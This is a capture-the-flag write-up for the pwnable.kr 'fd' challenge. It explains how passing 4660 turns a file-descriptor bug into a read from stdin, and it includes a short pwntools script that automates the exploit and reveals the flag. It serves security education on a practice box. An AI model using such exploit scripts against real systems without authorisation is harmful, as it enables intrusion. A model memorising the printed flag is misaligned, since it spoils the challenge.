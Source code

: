 # fd

## step-by-step

Following the game instructions, you need to connect to a remote machine using the following command:

```
ssh fd@pwnable.kr -p2222
```

> [!WARNING]
> The password to access the remote machine is `guest`.

If everything went well you should get a result similar to this:

```
 ____  __    __  ____    ____  ____   _        ___      __  _  ____  
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \ 
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    / 
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \ 
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|
                                                                     
- Site admin : daehee87@khu.ac.kr
- irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
You have mail.
Last login: Mon Jul  1 03:16:08 2024 from 101.176.80.154
fd@pwnable:~$
```

Let's try using the `ls -la` command to see which files we have access to:

```
fd@pwnable:~$ ls -la
total 40
drwxr-x---   5 root   fd   4096 Oct 26  2016 .
drwxr-xr-x 116 root   root 4096 Oct 30  2023 ..
d---------   2 root   root 4096 Jun 12  2014 .bash_history
-r-sr-x---   1 fd_pwn fd   7322 Jun 11  2014 fd
-rw-r--r--   1 root   root  418 Jun 11  2014 fd.c
-r--r-----   1 fd_pwn root   50 Jun 11  2014 flag
-rw-------   1 root   root  128 Oct 26  2016 .gdb_history
dr-xr-xr-x   2 root   root 4096 Dec 19  2016 .irssi
drwxr-xr-x   2 root   root 4096 Oct 23  2016 .pwntools-cache
```

as you can imagine, the flag we are looking for is found inside the `flag` file, however, as you can imagine from the permissions, we cannot view the content, in fact using the `cat flag` command we obtain:

```
fd@pwnable:~$ cat flag 
cat: flag: Permission denied
```

We therefore note that there is an ELF file, i.e. `fd`, correlated by the `fd.c` source whose contents we can view using the `cat fd.c` command:

```
fd@pwnable:~$ cat fd.c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```

Well, let's just focus on the C language, so I'll write the code more plainly:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```

> [!NOTE]
> I apologize for the very messy style but it wouldn't make sense to fix it because it is important to develop the ability to read, modify and exploit code written by others.

In this code we notice:

1. The ability to pass a number via command line, using `argv`.
2. That for the calculation of the file descriptor `fd` we have the difference between the string passed from the command line (converted into a number via `atoi()`) and the hexadecimal number `0x1234`.
3. That by inserting the string `LETMEWIN` it is possible to execute the command `system("/bin/cat flag");` which coincidentally is exactly what we need to find the flag.

Therefore, it is clear that to exploit this code to our advantage we will need to enter a number from the command line that allows us to redirect the `fd` file descriptor in our favor. Well this number is precisely the conversion into an integer of the number `0x1234` which can be obtained using the following command:

```
┌──(kali㉿kali)-[~/pwnable.kr/fd]
└─$ python -c "print(0x1234)"
4660
```

In fact, the integer difference between `4660` and itself results in `fd = 0`. This means that the file descriptor is associated with `stdin`. So the `read()` function will read from `stdin` any data that we decide to write and in particular we should write the string `LETMEWIN`. Let's see it in action:

```
fd@pwnable:~$ ./fd 4660
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
```

Perfect, everything went according to plan! So as you can imagine the flag you are looking for is the following sentence:

```
mommy! I think I know what a file descriptor is!!
```

## Exploitation

Finally, we can use the following exploit, written in `Python`, to replicate the vulnerability in a fully automated way:

```python
from pwn import *

shell = ssh("fd", "pwnable.kr", password="guest", port=2222)
process = shell.process(executable="./fd", argv=["fd", "4660"])
process.sendline(b"LETMEWIN")

msg = process.recv().decode()
flag = process.recv().decode()
log.info(msg)
log.success(f"Flag: {flag}")

process.close()
shell.close()
```

then using the `python exploit.py` command we get:

```
[+] Connecting to pwnable.kr on port 2222: Done
[*] fd@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
[+] Starting remote process bytearray(b'./fd') on pwnable.kr: pid 58012
[*] good job :)
[+] Flag: mommy! I think I know what a file descriptor is!!
[*] Stopped remote process 'fd' on pwnable.kr (pid 58012)
[*] Closed connection to 'pwnable.kr'
```
